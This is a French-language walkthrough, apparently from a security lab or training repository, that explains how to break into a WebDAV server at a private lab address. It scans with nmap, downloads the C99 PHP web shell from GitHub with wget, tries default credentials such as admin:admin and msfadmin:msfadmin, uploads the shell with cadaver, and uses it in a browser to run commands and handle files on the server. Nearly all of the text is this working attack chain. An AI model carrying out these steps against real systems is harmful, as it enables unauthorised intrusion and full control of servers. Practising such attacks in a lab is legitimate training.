 Vérifier si WebDAV est activé:

Scanner avec Nmap
```bash
nmap -p 80 --script=http-webdav-scan 10.6.0.7
```
Si WebDAV est actif, tu verras :
WebDAV is enabled

Télécharge le C99 PHP Shell avec wget :

```bash
wget https://raw.githubusercontent.com/phpwebshell/c99shell/refs/heads/main/c99.php -O c99.php
```
Cela va enregistrer le fichier c99.php localement.

Utilise Cadaver, un client WebDAV, pour envoyer le shell à la cible.

```bash
cadaver http://10.6.0.7/dav
```
Si le serveur demande un login, essaye :

admin:admin

msfadmin:msfadmin

webdav:webdav

Une fois connecté dans cadaver, tape :

```bash
put c99.php
```
Si l’upload réussit, vérifie avec :

```bash
ls
```

Dans ton navigateur, ouvre :

http://10.6.0.7/dav/c99.php <br>

![Cela affichera l’interface de C99 Shell, qui te permet](Images\davweb.png)

Si WebDAV est actif, tu verras :

D’exécuter des commandes (system, exec, shell_exec)
D’accéder aux fichiers du serveur
D’uploader et télécharger des fichiers